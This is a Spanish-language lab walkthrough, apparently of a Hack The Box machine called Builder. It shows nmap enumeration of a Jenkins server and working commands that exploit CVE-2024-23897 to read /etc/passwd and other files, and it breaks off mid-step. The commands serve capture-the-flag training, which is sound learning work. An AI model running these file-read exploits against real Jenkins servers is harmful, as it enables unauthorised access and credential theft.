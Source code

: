 
---
# Resolución de la maquina **BUILDER**
---

- Empezamos creando nuestras carpetas que contengan nuestros registros de nmap, scripts, exploits, content.
```
mkt
```

- Ingresamos a nuestra carpeta de nmap y realizamos un ping y escaneo a la red.
```
ping -c 1 10.10.11.10
```
- Con el siguiente comando registraremos la información en el archivo allPorts
```
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.11.10 -oG allPorts
```

Desglosemos la línea de comandos:

1. `nmap`: Este es el comando principal que invoca Nmap, una herramienta de código abierto para la exploración de redes y auditoría de seguridad.
    
2. `-p-`: Esto le dice a Nmap que escanee todos los puertos (1-65535). El guion ("dash") indica un rango de puertos.
    
3. `-sS`: Especifica el tipo de escaneo a realizar, en este caso, un escaneo de tipo TCP SYN (SYN scan). Este tipo de escaneo envía un paquete SYN al puerto de destino y espera una respuesta SYN/ACK si el puerto está abierto.
    
4. `--open`: Esta opción indica a Nmap que solo muestre los puertos que están abiertos en el escaneo.
    
5. `--min-rate 5000`: Esto establece la velocidad mínima de envío de paquetes. En este caso, se están enviando al menos 5000 paquetes por segundo.
    
6. `-vvv`: Esta opción activa el modo de verbosidad máximo, lo que significa que Nmap proporcionará una salida muy detallada, mostrando incluso información de depuración adicional.
    
7. `-n`: Indica a Nmap que no realice resolución de DNS inversa en las direcciones IP encontradas durante el escaneo.
    
8. `-Pn`: Esta opción le dice a Nmap que no realice la detección de hosts, lo que significa que no intentará determinar si el host objetivo está activo antes de realizar el escaneo.
    
9. `10.10.11.10`: Esta es la dirección IP del host que se va a escanear.
    
10. `-oG allPorts`: Especifica el formato de salida del escaneo. En este caso, la opción `-oG` genera una salida en formato "greppable" que puede ser procesada posteriormente con herramientas como grep. El archivo de salida se llamará "allPorts".

- Ahora con la herramienta **extractPorts** usamos el archivo grepeaple.
```
extractPorts allPorts
```

- Realizamos un escaneo con **nmap** a los puertos detectados en la dirección ip destino.
```
nmap -p22,8080 -sCV 10.10.11.10 -oN targeted 
```

- `-p22,8080`: Esta opción especifica los puertos que se van a escanear. En este caso, se están escaneando los puertos 22 (utilizado comúnmente para SSH) y 8080 (a menudo utilizado para servicios web alternativos u otros fines).
    
- `-sC`: Esta opción activa el script predeterminado de escaneo y detección de versiones. Esto significa que Nmap ejecutará una serie de scripts integrados para detectar versiones de servicios y obtener información adicional sobre ellos.
    
- `-sV`: Esta opción solicita a Nmap que realice la detección de versiones en los servicios que descubre durante el escaneo de puertos. Esto significa que intentará determinar qué versiones de software están siendo ejecutadas en los puertos abiertos.
    
- `10.10.11.10`: Esta es la dirección IP del objetivo que se está escaneando. En este caso, el escaneo de puertos y servicios se realizará en el dispositivo con la dirección IP 10.10.11.10.
    
- `-oN targeted`: Esta opción especifica el formato y el nombre del archivo de salida del escaneo. En este caso, el resultado se guardará en un archivo llamado "targeted" en un formato específico que se puede procesar posteriormente.

- Ya con esta información podríamos investigar mas con la información que nos muestra con la versión del Ubuntu
**OpenSSH 8.9p1 Ubuntu 3ubuntu0.6**
- Investigando con la página **launchpad** nos damos cuenta que estamos con la versión Jammy de Ubuntu 
**JAMMY**
- El siguiente comando nos permite ver el contenido de manera java 
```
cat targeted -l java
```

- A continuación empezamos a utilizar la herramienta **whatweb**
```
whatweb http://10.10.11.10:8080
```

- Con el siguiente comando podemos escanear las directorios existentes con la herramienta de **nmap**
```
nmap --script http-enum -p8080 10.10.11.10 -oN webScan
```

- `--script http-enum`: Esta opción indica a Nmap que ejecute el script `http-enum` durante el escaneo. Este script se utiliza para identificar y enumerar recursos y directorios en un servidor web que responde a peticiones HTTP. La enumeración de estos recursos puede revelar información sobre la estructura del sitio web y posiblemente exponer puntos de entrada para posibles vulnerabilidades.
    
- `-p8080`: Esta opción especifica el puerto que se va a escanear. En este caso, estás escaneando el puerto 8080, que es comúnmente utilizado para servidores web alternativos o servicios web adicionales.
    
- `10.10.11.10`: Esta es la dirección IP del objetivo que se está escaneando. En este caso, el escaneo se realizará en el dispositivo con la dirección IP 10.10.11.10.
	
- `-oN`: Esta es una opción de Nmap que se utiliza para especificar el formato y el nombre del archivo de salida del escaneo.
    
- `webScan`: Este es el nombre del archivo de salida donde se guardarán los resultados del escaneo. En este caso, el archivo se llamará "webScan".

- A continuación podemos empezar a investigar la pagina web montada en el puerto 8080
- Vemos que es una pagina de **Jenkins** y podemos buscar en el navegador **default password** como **admin/password**
- Podemos observar la versión de **Jenkins** en la parte inferior y con esto podemos averiguar en internet un exploit en caso de que este desactualizado 
- Analizamos la pagina y encontramos que tiene información de usuarios pero no da mas información, así que nos dirigimos a nuestra carpeta de scripts
- Nos clonamos el repositorio de CVE-2024-23897
```
git clone https://github.com/h4x0r-dz/CVE-2024-23897.git
```
- Si realizamos un cat al archivo **CVE-2024-23897.py** podemos analizar un poco del script a utilizar 

- Utilizamos la siguiente linea para observar información en ciertas rutas
```
python3 CVE-2024-23897.py -u http://10.10.11.10:8080 -f /etc/group
```
- En ocasiones toca volver a enviar la petición para que muestre otros resultados

- Tambien tenemos otro exploit que nos trae de local el recurso
```
git clone https://github.com/CKevens/CVE-2024-23897.git
```

- Con este comando podemos ejecutar whoami por ejemplo
```
java -jar jenkins-cli.jar -s http://10.10.11.10:8080 who-am-i
```

- Si queremos leer archivos de una ruta podemos utilizar 
```
java -jar jenkins-cli.jar -s http://10.10.11.10:8080 help @/etc/passwd
```

- Con este comando podemos enlistar mas información detallada
```
java -jar jenkins-cli.jar -s http://10.10.11.10:8080 connect-node @/etc/passwd
```

 - El comando ejecuta cada comando disponible en Jenkins, intenta obtener `/etc/passwd` con cada uno, y muestra el recuento de líneas de salida de cada intento.
```
for command in $(java -jar jenkins-cli.jar -s http://10.10.11.10:8080 help 2>&1 | grep -v "    " | xargs | tr ' ' '\n'); do echo "[+] Para el comando $command: $(java -jar jenkins-cli.jar -s http://10.10.11.10:8080 $command @/etc/passwd 2>&1 | wc -l)"; done
```

- Despues de ver cual nos devuelve mas lineas, realizamos el siguiente comando para ver las rutas de cada nombre como **root, www-data, etc**
```
java -jar jenkins-cli.jar -s http://10.10.11.10:8080 delete-job @/etc/passwd 2>&1 | grep -oP "'.*?'"
```

- Este nos enlista las direcciones ip
```
java -jar jenkins-cli.jar -s http://10.10.11.10:8080 delete-job @/proc/net/fib_trie 2>&1 | grep -oP "'.*?'"
```

- Para ver la ruta completa al directorio de inicio del usuario en Builder que ejecuta Jenkins
```
java -jar jenkins-cli.jar -s http://10.10.11.10:8080 delete-job @/var/jenkins_home/user.txt 2>&1 | grep -oP "'.*?'"
```

- Ahora ejecutamos un contenedor docker de jenkins en nuestra terminal 
```
docker run -p 8080:8080 -p 50000:50000 --restart=on-failure -v jenkins_home:/var/jenkins_home jenkins/jenkins:lts-jdk17
```

- Una vez iniciado el docker podemos ingresar al navegador por el localhost:8080 eh ingresar la constrase que indica en la instalación
```
688ddaf7d99c4c5381e15cdadf43a63d
```
- Iniciar con la instalación
- Creamos el usuario y contraseña
- 


- Si no funciona de esa manera abrimos el burpsuite para ver un poco mas de información 
```
burpsuite &> /dev/null & disown
```
- En las configuraciones del proxy editamos en la ip el host de la pagina que vamos a utilizar con el puerto designado

- Nos clonamos 